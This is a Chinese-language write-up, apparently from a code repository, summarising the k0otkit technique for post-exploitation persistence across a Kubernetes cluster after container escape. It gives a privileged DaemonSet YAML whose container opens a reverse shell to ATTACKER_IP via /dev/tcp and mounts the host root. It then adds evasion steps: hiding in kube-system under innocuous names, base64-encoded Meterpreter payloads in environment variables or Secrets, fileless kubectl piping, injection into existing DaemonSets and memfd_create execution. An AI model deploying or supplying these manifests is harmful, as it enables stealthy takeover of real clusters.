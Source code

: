 # k0otkit
绿盟开发,
场景为已经造成了控制节点的容器逃逸，获取了控制节点的root权限,然后进行后渗透利用

## 基本思路
k8s存在名叫DaemonSet的资源，他能够确保全部节点上运行一个pod的副本，当有节点加入集群的时候，也会为听他们新增一个Pod

DaemonSet对于渗透测试很有价值:
1. 能够确保所有节点上都运行一个Pod
2. 如果有Pod退出，DaemonSet将在对应节点上自动重建一个Pod

因此如果利用管理员凭证在目标集群创建一个内容为反弹shell的DaemonSet,我们就可以实现集群所有节点自动化反弹shell

## 基本实现
将DaemonSet创建的Pod启动命令设置为反弹shell即可,但仅仅如此也是不够的
我们需要在这个容器上打破隔离，需要以下几点
1. 特权容器，相当于docker run的时候加上`-privileged`选项
2. 容器与宿主机共享PID命名空间
3. 容器内挂载宿主机根目录

```yaml
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: attacker
spec:
  selector:
    matchLabels:
      app: attacker
  template:
    metadata:
      labels:
        app: attacker
    spec:
      hostNetwork: true
      hostPID: true
      containers:
      - name: main
        image: bash
        imagePullPolicy: IfNotPresent
        command: ["bash"]
        # reverse shell
        args: ["-c", "bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1"]
        securityContext:
          privileged: true
        volumeMounts:
        - mountPath: /host
          name: host-root
      volumes:
      - name: host-root
        hostPath:
          path: /
          type: Directory
```

然后利用容器逃逸的`kubectl apply -f k0otkit.yaml`来实现该功能

然后绿盟的研究员也对该yaml进行了迭代更新，使得能让其增加隐蔽性

## 删除敏感词
名称和标签切换为`kube-cache, kube-metrics`这种，可以极大减少怀疑
此外由于管理员执行命令`kubectl get pods`就可以查看节点

所以这里同样考虑将`DaemonSet`资源创建在`kube-system`系统命名空间下，这样运行上面的命令就查看不到异常资源，
而在正常运行k8s的集群下，查看kube-system命名空间的资源状态需求也很少，这样就提高了隐蔽性
```yaml
metadata:
    name: attacker
    namespace: kube-system
    # ...
```
## 替换shell为Meterpreter
上面的yaml是基于bash的TCP协议反弹shell
由于他是明文，所以可能被网络入侵检查系统轻易检测从而触发警告

利用metasploit项目来生成加密反弹shell流量的二进制文件mrt

## 无文件化
上面的构建面临以下问题:
1. 在控制节点上面我们会创建一个本地yaml文件，本地创建文件可能会引起文件监控系统的告警
2. 并且需要二进制程序mrt为启动命令构建容器镜像,自行Meterpreter构建镜像动静太大,远程拉外部镜像容易引起告警

第一个问题的皆解决办法就是使用Linux命令行管道

```sh
cat << EOF | kubectl apply -f -
# {YAML文件内容}
EOF
```
这行命令就是使用cat获取多行输入,结尾用EOF表示，再将cat的输出用管道重定向到`kubectl apply -f -`命令
这样就不需要要创建本地yaml文件


第二个问题,将二进制Meterpreter编码为可见字符串，然后以环境变量的形式存放在DaemonSet的Yaml中
容器运行起来再从中读取字符串解码并保存为二进制文件

```YAML
# ......
      containers:
      - name: main
        image: bash
        imagePullPolicy: IfNotPresent
        command: ["bash"]
        args: ["-c", "echo -ne $(echo $PAYLOAD | base64 -d) > mrt; chmod u+x mrt; ./mrt"]
        env:
        - name: PAYLOAD
          value: "{PAYLOAD_VALUE}"
# .....
```

## 分离payload

编码后的Meterpreterr过长，容易被视作异常
k8s有一类名为Secret的资源，用来存储敏感信息，可以存入很长的字符串

```sh
secret_name=proxy-cache
secret_data_name=content

cat << EOF | kubectl --kubeconfig /root/.kube/config apply -f -
apiVersion: v1
kind: Secret
metadata:
  name: $secret_name
  namespace: kube-system
type: Opaque
data:
  $secret_data_name: {PAYLOAD_VALUE_BASE64}
EOF
```
另外需要修改DaemonSet的YAML,将上面secret以环境变量形式加载到容器内部

## 动态容器注入
如果管理员认真查看`kube-system`命名空间下的资源，k0otkit将直接暴露
所以这里采用将恶意容器注入到集群已有的DaemonSet中，这样就不必额外创建DaemonSet资源

## 解决镜像依赖
通过注入目标来确定修改的恶意容器启动命令

## 无文件攻击
由于容器启动后还是会通过yaml文件创建恶意二进制程序，因此上面的问题并不是完整的无文件攻击，这里使用linux提供的系统调用`memfd_create`,而这个系统调用是创建一个内存文件，然后向其中填入内容，最终执行该文件




# 参考
[https://blog.nsfocus.net/k0otkithack-k8s-in-a-k8s-way/](https://blog.nsfocus.net/k0otkithack-k8s-in-a-k8s-way/)






